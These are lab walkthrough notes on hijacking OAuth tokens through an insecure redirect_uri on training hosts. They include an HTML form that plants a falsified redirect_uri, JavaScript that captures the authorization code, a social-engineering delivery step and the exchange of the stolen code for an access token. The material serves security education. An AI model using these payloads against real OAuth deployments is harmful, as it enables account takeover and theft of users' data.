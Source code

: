 Tokens play a critical role in the OAuth 2.0 framework, acting as digital keys that grant access to protected resources. These tokens are issued by the authorization server and redirected to the client application based on the `redirect_uri` parameter. This redirection is crucial in the OAuth flow, ensuring that tokens are securely transmitted to the intended recipient. However, if the `redirect_uri` is not well protected, attackers can exploit it to hijack tokens.

## Role of Redirect_URI
The `redirect_uri` parameter is specified during the OAuth flow to direct where the authorization server should send the token after authorization. This URI must be pre-registered in the application settings to prevent open redirect vulnerabilities. During the OAuth process, the server checks that the provided `redirect_uri` matches one of the registered URIs.

## Vulnerability
An insecure `redirect_uri` can lead to severe security issues. If attackers gain control over any domain or URI listed in the `redirect_uri`, they can manipulate the flow to intercept tokens. Here’s how this can be exploited:

- Consider an OAuth application with the following registered redirect URIs as shown below:
	![](Pasted%20image%2020241201165923.png)
- **Attacker's Strategy**: If an attacker gains control over `dev.bistro.thm`, they can exploit the OAuth flow. By setting the `redirect_uri` to `http://dev.bistro.thm/callback`, the authorization server will send the token to this controlled domain.
- **Crafted Attack:** The attacker initiates an OAuth flow and ensures the `redirect_uri` points to their controlled domain. After the user authorizes the application, the token is sent to `http://dev.bistro.thm/callback`. The attacker can now capture this token and use it to access protected resources.

### Preparing the Payload (Attacker Perspective)
For this exercise, we assume that the attacker has compromised the domain `dev.bistro.thm:8002` and can host any HTML page on the server. Consider Tom, a victim to whom we will send a link. The attacker can craft a simple HTML page (`redirect_uri.html`) with the following code:
```html
    <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
            <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
            <input type="submit" value="Hijack OAuth">
        </form>
        ```

This form sends a hidden `redirect_uri` parameter with the value `http://dev.bistro.thm:8002/malicious_redirect.html` and submits a request to [http://coffee.thm:8000/oauthdemo/oauth_login/.](http://coffee.thm:8000/oauthdemo/oauth_login/)  The `malicious_redirect.html` page then intercepts the authorization code from the URL using the following code:

```javascript
<script>
    // Extract the authorization code from the URL
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get('code');
    document.getElementById('auth_code').innerText = code;
    console.log("Intercepted Authorization Code:", code);
    // code to save the acquired code in database/file etc
</script>
```

 **1. Extracting the Authorization Code from the URL:**
	`const urlParams = new URLSearchParams(window.location.search);`
	This line creates an instance of `URLSearchParams`, which allows easy access to query parameters in the URL.
	    - **`window.location.search`:** Refers to the part of the URL after the `?` symbol (query string).  
		_Example:_ If the URL is `http://example.com?code=abc123`, `urlParams` will process `code=abc123`.

**2. Getting the `code` Parameter:**
	`const code = urlParams.get('code');`
	This extracts the value of the `code` parameter from the query string.  
	    _Example:_ If the query string is `?code=abc123`, the variable `code` will be set to `"abc123"`.

**3. Displaying the Authorization Code on the Page:**
	`document.getElementById('auth_code').innerText = code;`
	Finds an HTML element with the ID `auth_code` and sets its text content to the extracted authorization code.  
	    _Example:_ If the HTML contains `<span id="auth_code"></span>`, it will display the code inside that element.

**4. Logging the Authorization Code to the Console:**
	`console.log("Intercepted Authorization Code:", code);`
	Outputs the extracted authorization code to the browser's developer console for debugging or monitoring purposes.

﻿*Note:* 
	﻿Since the attacker has complete control over the subdomain, once he redirects a victim to the attacker-controlled domain, he will save the credentials in a database/file, etc., for later usage. Moreover, the redirection from redirect_uri to the original URL would be so quick that the victim would have no idea that his authorization code has been hijacked.

The attacker can send Tom the link ([http://dev.bistro.thm:8002/redirect_uri.html](http://dev.bistro.thm:8002/redirect_uri.html)) through social engineering tactics or a CSRF attack. The victim, unsuspecting of the malicious intent, clicks on the link, which takes them to the URL `dev.bistro.thm:8002/redirect_uri.html` 
In the attached VM, open the [link](http://dev.bistro.thm:8002/redirect_uri.html) in the browser as a victim. Here, you will see the following screen:
	![](Pasted%20image%2020241201171215.png)

In the attached VM, when the victim clicks the "**Login via OAuth**" button, the form calls to `http://coffee.thm:8000/oauthdemo/oauth_login/` but with a falsified `redirect_uri`. Once the victim enters his credentials (`victim:victim123`) for the OAuth provider, it directs the OAuth authorization code to the attacker's controlled URL (`http://dev.bistro.thm:8002/malicious_redirect.html`), allowing the attacker to intercept and misuse the authorization code as shown below:
	![](Pasted%20image%2020241201171257.png)

## Attacker Perspective
From the attacker’s machine, they can utilize can utilize the intercepted authorization code to call the `/callback` endpoint and exchange it for a valid access token. In an OAuth flow, as we saw earlier, the `/callback` endpoint is always available, accepting the code parameter and returning an access token. With this token, the attacker gains unauthorized access to the user's protected resources. To get the access token, visit the URL [http://bistro.thm:8000/oauthdemo/callbackforflag/?code=xxxxx](http://bistro.thm:8000/oauthdemo/callbackforflag/?code=xxxx) and replace the `code` parameter with the acquired authorization code.
	![](Pasted%20image%2020241201171358.png)

